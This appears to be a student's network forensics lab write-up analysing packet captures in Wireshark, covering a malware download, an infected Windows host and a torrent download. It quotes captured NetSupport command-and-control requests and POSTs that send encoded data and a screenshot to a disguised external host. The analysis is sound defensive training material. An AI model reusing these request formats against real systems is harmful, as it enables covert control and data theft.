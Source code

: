 # Network Forensic Analysis Report

N.B The exercises were easier by using display filters and exporting the results into smaller pcap files.
```bash
ip.addr == 10.6.12.0/24     10.6.12.0-24.pcapng
ip.addr == 172.16.4.0/24    172.16.4.0-24.pcapng
ip.addr == 10.0.0.0/24      10.0.0.0-24.pcapng
ip.addr == 10.0.0.201       10.0.0.201.pcapng
```
## Time Thieves 
You must inspect your traffic capture to answer the following questions:

1. What is the domain name of the users' custom site?        `frank-n-ted.com`
![](Images/Network/Timethieves.FT.png)
2. What is the IP address of the Domain Controller (DC) of the AD network?   `Frank-n-Ted-DC.frank-n-ted.com  10.6.12.12`
![](Images/Network/Timethieves.DC.png)
3. What is the name of the malware downloaded to the 10.6.12.203 machine?
   - Once you have found the file, export it to your Kali machine's desktop.
- `ip.addr == 10.6.12.203` File -> Export Objects -> HTTP 
- malicious document `invoice-86495.doc` pulled down `june11.dll`
![](Images/Network/Timethieves.malware.png)
4. Upload the file to [VirusTotal.com](https://www.virustotal.com/gui/). 
5. What kind of malware is this classified as?

```bash
Trojan horse of some kind (potentially banking based on detection results).
Several of the AV vendors classify it as ransomware.
```
![](Images/Network/june11.dll.virustotal.png)
![](Images/Network/june11.dll.virustotal.2.png)

---

## Vulnerable Windows Machine

1. Find the following information about the infected Windows machine:
    - Host name     `Rotterdam-PC.mind-hammer.net`
    - IP address    `172.16.4.205`
    - MAC address   `00:59:07:b0:63:a4`

![](Images/Network/172.16.4.205.png)

2. What is the username of the Windows user whose computer is infected?     `matthijs.devries`

![](Images/Network/172.16.4.205.krb.png)

3. What are the IP addresses used in the actual infection traffic?
There is some kind of C&C traffic going on with `31.7.62.214`.

```bash
POST http://31.7.62.214/fakeurl.htm HTTP/1.1
User-Agent: NetSupport Manager/1.3
Content-Type: application/x-www-form-urlencoded
Content-Length:    22
Host: 31.7.62.214
Connection: Keep-Alive

CMD=POLL
INFO=1
ACK=1
HTTP/1.1 200 OK
Server: NetSupport Gateway/1.6 (Windows NT)
Content-Type: application/x-www-form-urlencoded
Content-Length:    60
Connection: Keep-Alive

CMD=ENCD
ES=1
DATA=.g+$.{.. \....W...bb...).w}..o..X..xf...
POST http://31.7.62.214/fakeurl.htm HTTP/1.1
User-Agent: NetSupport Manager/1.3
Content-Type: application/x-www-form-urlencoded
Content-Length:   240
Host: 31.7.62.214
Connection: Keep-Alive

CMD=ENCD
ES=1
DATA=u.2h.r..4.]..%y-.....=I...D3.W..i.7?....=@....F.f....&t.[..6ra..L....C.Lr...vJ.OE@k.}.[.jo\.s.+Y.......]8.......o...MQ..Y......z.8.]a5.(...... ./..7. .\.(..."y.o..h..l.....Hb...@C.=@........6.p...g..r...f.V=@.`t..i......

....
```
Numerous files named some variation of empty.gif are being sent to `Dst: b5689023.green.mattingsolutions.co (185.243.115.84)`. The HTTP stream contains a lots of text instead of binary data that would comprise an image file. Further on in the stream, a PNG image is being sent

```bash
POST /empty.gif HTTP/1.1
Accept: */*
Accept-Language: en-US
Age: 911068f789126eb9
Content-Type: application/x-www-form-urlencoded
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/7.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: b5689023.green.mattingsolutions.co
Content-Length: 72
Connection: Keep-Alive
Cache-Control: no-cache

a=4f54646966376d606360653572656961646172666965616267616266676c6c67606672HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Fri, 19 Jul 2019 18:53:12 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/7.2.19
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: GET,POST,OPTIONS,DELETE,PUT

f09
b1001c3a578453a43c22f1cf4f3d0280b3a3d2aa3ed38096c42bea4787be5ab053d758dfcb3a72167634b8a46d9d1aee46eb3914ab3021247509e3cd3eea598db3a5f5f9a0f113079c20a5d4848078e1b1956b606642b736ffb94a2ae226ca5f5698a0211d71f4d6d3e08217a8f6f7b60b9922ebd814d13eb265f8ec0101731a52f6c500f827b915884b7ddb440f77167b8abd4aac2ce1dfeb9494c5ca6566ee00c6bbeaf41d8fc5a756474179c1578d992945ea27c15256c2f2681a39f6d2d1f2c951bdf4f3aa5fde7aa09961d626b93baba2551c361706d0c115c26
[.............]
POST /empty.gif?ss&ss1img HTTP/1.1
Accept: */*
Accept-Language: en-US
Age: 911068f789126eb9
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/7.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: b5689023.green.mattingsolutions.co
Content-Length: 3592206
Connection: Keep-Alive
Cache-Control: no-cache

.PNG
.
...
IHDR.......8........C....sRGB.........gAMA......a....	pHYs..........o.d....IDATx^t...'...
..y..$.a..a..f.....!	..''..m...+1..Ap.'...r..>k.......}Uw....oU.....Y.<......Y.Y.<...T....S.......y.9.=g..\..+..........u.^.B[p%...@=._.....UWe.[x.K=_yW......{........i.-....*w.N...m[|..........k^jK..m[x....._p..t....
y.....,.Z..c...7-S=...^..x)].......?&.u....e..Q...[....}[~..M.T.X..^..Ko|.m..l.
[........]
```


4. As a bonus, retrieve the desktop background of the Windows host.
![](Images/Network/desktop.png)
---

## Illegal Downloads

1. Find the following information about the machine with IP address `10.0.0.201`:
  
    - MAC address           `00:16:17:18:66:c8`
    - Windows username      `elmer.blanco` 
    - OS version            `Windows 10`  

![](Images/Network/10.0.0.201.dhcp.png)

The CNameString value without the `$` in kerberos traffic for the IP.
![](Images/Network/10.0.0.201.kerberos.png)

Decoding the user agent from an http request
![](Images/Network/10.0.0.201.user_agent_decode.png)

2. Which torrent file did the user download?  `Betty_Boop_Rhythm_on_the_Reservation.avi.torrent`

![](Images/Network/10.0.0.201.torrent.png)
